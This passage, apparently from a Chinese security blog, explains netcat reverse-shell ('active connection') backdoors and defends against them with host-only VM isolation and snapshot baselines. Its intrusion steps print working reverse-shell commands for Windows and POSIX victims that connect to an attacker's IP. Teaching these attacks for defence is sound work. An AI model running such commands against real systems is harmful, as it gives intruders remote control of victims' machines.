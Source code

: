 ### ◇原理

　　原理其实与 “招数 11” 很类似，唯一的差别在于——把客户端与服务端【对调】。也就是说，攻击者手头的 nc 充当服务端，而受害者机器上的 nc 充当客户端。此时，受害者本机的 nc【无须】开启监听端口，【不受】防火墙的影响，也【不受】NAT 的影响。

### ◇入侵方法

**步骤 1**  
　　既然 nc 的 “服务端” 与“客户端”对调。因此攻击者要先在自己机器上运行“服务端 nc”，命令如下（其中的 `xxx` 是端口号）。当然啦，攻击者自己电脑的防火墙需要允许 `xxx` 端口号对外监听。

```
nc -lk -p xxx
```

**步骤 2**  
　　如果受害者是 Windows 系统，只须如下命令就可以开启一个后门。

```
nc.exe -e cmd.exe x.x.x.x xxx
```

　　如果受害者是 POSIX 系统，则用如下命令：

```
nc -e /bin/sh x.x.x.x xxx
```

　　（在上述两个命令中， `xxx` 是步骤 1 用到的端口号，`x.x.x.x` 是攻击者的 IP 地址）

### ◇比 “NAT 模式” 更保险的是——【隔离模式】的虚拟机

　　所谓的【隔离模式】，指的是 “Host Only 模式” 或类似的模式（比如：“Internal 模式”）。  
　　早在 6 年前（2013），俺就已经聊过【虚拟机隔离】的话题。具体参见如下系列教程的 “第 6 篇、第 7 篇、第 8 篇”：  
《[如何隐藏你的踪迹，避免跨省追捕](https://program-think.blogspot.com/2010/04/howto-cover-your-tracks-0.html)》  
　　虽然当年那个系列讲的是【隐匿性】，但其中的【虚拟机隔离】，同样可以用来对付 “主动连接型后门”。

　　有必要提醒一下：  
　　【隔离的虚拟机】可以增加入侵者的攻击难度。但【不能】做到 100% 防范。  
　　只要你能在某个隔离虚拟机中上网，那么——那些足够高级的木马，就【有可能】在隔离虚拟机中找到对外连接的通道。从而实现一个 “【主动】连接型的后门”。  
　　这下该咋办捏？  
　　（在安全方面）虚拟机有两个【显著好处】——“网络隔离性” 只是其中之一，另一个是【快照】。  
　　如果你对安全性的要求【非常高】，要学会：  
1、用 “快照功能” 建立【安全基线】  
（所谓的【安全基线】就是说——在确保系统【纯洁】的时候，先做一个快照）  
2、养成【定期回退快照】的好习惯  
（就算你中了木马，只要一回退到【安全基线】，系统重新变得【纯洁】啦）  
　　关于这方面的教程，俺专门写过一篇：  
《[扫盲操作系统虚拟机 [7]：如何用“快照” 辅助安全加固、强化隐私保护？](https://program-think.blogspot.com/2015/12/system-vm-7.html)》

### ◇“【主动】连接型后门” 的优势之处（危险性之处）

　　简单对比一下 “后门的两种连接方式”。

　　**可用性**  
　　如果用 “被动型后门” 入侵桌面 PC，考虑到绝大部分桌面 PC 都处于内网（其网卡【并未】分配公网 IP）。对这种场景，攻击者需要与受害者在同一个局域网，才能与后门建立通讯。  
　　相比之下，“主动型后门” 就【没有】这种弊端。
